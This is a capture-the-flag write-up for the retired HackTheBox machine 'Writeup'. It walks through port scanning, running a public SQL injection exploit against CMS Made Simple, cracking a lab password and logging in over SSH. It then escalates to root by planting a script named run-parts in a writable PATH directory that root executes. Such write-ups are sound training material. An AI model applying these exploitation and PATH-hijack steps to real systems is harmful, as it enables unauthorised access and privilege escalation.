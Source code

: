 Title:HTB: Writeup
Date: 10-12-2019 21:52
category:security
tags:security, boot2root, HTB
meta:security, boot2root, HTB

<img class="align-left" src="/media/2019.10/writeup_card.png" alt="Writeup Card" width="262">

This article is a writeup about a retired HacktheBox machine:
[Writeup](https://www.hackthebox.eu/home/machines/profile/192).
(*Yes the machine name is writeup, searching a writeup for writeup will be a
funny thing.*).
The machine is classed as an easy one. It involves vulnerability in a known CMS
as well as "PATH vulnerability" for the privilege escalation.

<!-- PELICAN_END_SUMMARY -->

[TOC]

# Recon

First of all we start by scanning the machine's open ports with nmap. Only port
22 (SSH) and 80 (HTTP) are open:

    :::text
    # Nmap 7.80 scan initiated Sun Sep 22 16:08:28 2019 as: nmap -oA nmap -sSV 10.10.10.138
    Nmap scan report for 10.10.10.138
    Host is up (0.089s latency).
    Not shown: 998 filtered ports
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
    80/tcp open  http    Apache httpd 2.4.25 ((Debian))
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    # Nmap done at Sun Sep 22 16:08:43 2019 -- 1 IP address (1 host up) scanned in 15.20 seconds

# Web, getting user

The homepage of this website is ugly and say that there is nothing there yet.
We take a look to `robots.txt`:

    :::text
    #              __
    #      _(\    |@@|
    #     (__/\__ \--/ __
    #        \___|----|  |   __
    #            \ }{ /\ )_ / _\
    #            /\__/\ \__O (__
    #           (--/\--)    \__/
    #           _)(  )(_
    #          `---''---`

    # Disallow access to the blog until content is finished.
    User-agent: * 
    Disallow: /writeup/

Let's take a look at `/writeup/`! We have there another website. When looking at
the page source code we notice the use of "CMS Made Simple" a CMS with a few
vulnerabilities.

    :::html
    <!doctype html>
    <html lang="en_US"><head>
      <title>Home - writeup</title>

    <base href="http://10.10.10.138/writeup/" />
    <meta name="Generator" content="CMS Made Simple - Copyright (C) 2004-2019. All rights reserved." />
    <meta http-equiv="Content-Type" content="text/html; charset=utf-8" />

Let's search for exploits, a few of them are available:

    :::text
    # searchsploit 'made simple'
    -------------------------------------------------------------------------------------- ----------------------------------
     Exploit Title                                                                        |  Path
                                                                                          | (/usr/share/exploitdb/)
    -------------------------------------------------------------------------------------- ----------------------------------
    CMS Made Simple (CMSMS) Showtime2 - File Upload Remote Code Execution (Metasploit)    | exploits/php/remote/46627.rb
    CMS Made Simple 0.10 - 'Lang.php' Remote File Inclusion                               | exploits/php/webapps/26217.html
    CMS Made Simple 0.10 - 'index.php' Cross-Site Scripting                               | exploits/php/webapps/26298.txt
    CMS Made Simple 1.0.2 - 'SearchInput' Cross-Site Scripting                            | exploits/php/webapps/29272.txt
    CMS Made Simple 1.0.5 - 'Stylesheet.php' SQL Injection                                | exploits/php/webapps/29941.txt
    CMS Made Simple 1.11.10 - Multiple Cross-Site Scripting Vulnerabilities               | exploits/php/webapps/32668.txt
    CMS Made Simple 1.11.9 - Multiple Vulnerabilities                                     | exploits/php/webapps/43889.txt
    CMS Made Simple 1.2 - Remote Code Execution                                           | exploits/php/webapps/4442.txt
    CMS Made Simple 1.2.2 Module TinyMCE - SQL Injection                                  | exploits/php/webapps/4810.txt
    CMS Made Simple 1.2.4 Module FileManager - Arbitrary File Upload                      | exploits/php/webapps/5600.php
    CMS Made Simple 1.4.1 - Local File Inclusion                                          | exploits/php/webapps/7285.txt
    CMS Made Simple 1.6.2 - Local File Disclosure                                         | exploits/php/webapps/9407.txt
    CMS Made Simple 1.6.6 - Local File Inclusion / Cross-Site Scripting                   | exploits/php/webapps/33643.txt
    CMS Made Simple 1.6.6 - Multiple Vulnerabilities                                      | exploits/php/webapps/11424.txt
    CMS Made Simple 1.7 - Cross-Site Request Forgery                                      | exploits/php/webapps/12009.html
    CMS Made Simple 1.8 - 'default_cms_lang' Local File Inclusion                         | exploits/php/webapps/34299.py
    CMS Made Simple 1.x - Cross-Site Scripting / Cross-Site Request Forgery               | exploits/php/webapps/34068.html
    CMS Made Simple 2.1.6 - Multiple Vulnerabilities                                      | exploits/php/webapps/41997.txt
    CMS Made Simple 2.1.6 - Remote Code Execution                                         | exploits/php/webapps/44192.txt
    CMS Made Simple 2.2.5 - (Authenticated) Remote Code Execution                         | exploits/php/webapps/44976.py
    CMS Made Simple 2.2.7 - (Authenticated) Remote Code Execution                         | exploits/php/webapps/45793.py
    CMS Made Simple < 1.12.1 / < 2.1.3 - Web Server Cache Poisoning                       | exploits/php/webapps/39760.txt
    CMS Made Simple < 2.2.10 - SQL Injection                                              | exploits/php/webapps/46635.py
    CMS Made Simple Module Antz Toolkit 1.02 - Arbitrary File Upload                      | exploits/php/webapps/34300.py
    CMS Made Simple Module Download Manager 1.4.1 - Arbitrary File Upload                 | exploits/php/webapps/34298.py
    CMS Made Simple Showtime2 Module 3.6.2 - (Authenticated) Arbitrary File Upload        | exploits/php/webapps/46546.py
    -------------------------------------------------------------------------------------- ----------------------------------
    Shellcodes: No Result

As we are not authenticated, The one that interest us is "CMS Made Simple <
2.2.10 - SQL Injection (exploits/php/webapps/46635.py). We run the exploit
(admire the beauty of the display). We then get a username, an email, a password
salt and a password hash.

    :::text
    python 46635.py -u http://10.10.10.138/writeup
    [+] Salt for password found: 5a599ef579066807
    [+] Username found: jkr
    [+] Email found: jkr@writeup.htb
    [+] Password found: 62def4866937f08cc13bab43bb14e6f7

The exploit also allow to crack the password using a dictionary. We run
"rockyou" against it and found jkr password.

    :::text
    # python 46635.py --crack -w ./rockyou.txt -u http://10.10.10.138/writeup
    [+] Salt for password found: 5a599ef579066807
    [+] Username found: jkr
    [+] Email found: jkr@writeup.htb
    [+] Password found: 62def4866937f08cc13bab43bb14e6f7
    [+] Password cracked: raykayjay9

With this password we are able to connect to the box using SSH and get the user
password:

    :::text
    # ssh jkr@10.10.10.138
    jkr@10.10.10.138's password: 
    Linux writeup 4.9.0-8-amd64 x86_64 GNU/Linux

    The programs included with the Devuan GNU/Linux system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.

    Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
    permitted by applicable law.
    Last login: Sun Sep 22 12:31:00 2019 from 10.10.14.237
    jkr@writeup:~$ cat user.txt 
    d4e493<redacted>

# Root

We enumerate the box without a lot of success. A quick read of the box forum
recommend to run [pspy](https://github.com/DominicBreuker/pspy) on the box. We
discover that a script is run every time an user connect with SSH.

    :::text
    2019/09/25 07:39:49 CMD: UID=0    PID=4352   | sshd: [accepted]
    2019/09/25 07:39:49 CMD: UID=0    PID=4353   | sshd: [accepted]  
    2019/09/25 07:40:01 CMD: UID=0    PID=4354   | sshd: jkr [priv]  
    2019/09/25 07:40:01 CMD: UID=0    PID=4355   | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new 
    2019/09/25 07:40:01 CMD: UID=0    PID=4356   | run-parts --lsbsysinit /etc/update-motd.d 

The PATH is fixed by the command line and there is no `run-parts` binary in the
first folder `/usr/local/sbin`. Moreover this folder is writable. Therefore
we write a simple file `/usr/local/sbin/run-parts` and give it the execution
permission:

    :::text
    jkr@writeup:~$ vim /usr/local/sbin/run-parts
    #!/bin/bash
    cat /root/root.txt > /tmp/lool/b
    rm /tmp/lool/b

    jkr@writeup:~$ chmod +x /usr/local/sbin/run-parts

We create a directory in `/tmp/` and write the `b` file. At the same time be
connect by SSH with the jkr user. We get the root flag

    :::text
    jkr@writeup:~$ mkdir /tmp/lool/
    jkr@writeup:~$ echo a > /tmp/lool/b
    jkr@writeup:~$ tail -f /tmp/lool/b
    a
    tail: /tmp/lool/b: file truncated
    eeba4<redacted>

# Wrapping up

The user step implied only to use a know exploit without any change. The
privilege escalation was really interesting as I didn't use
[pspy](https://github.com/DominicBreuker/pspy) before.


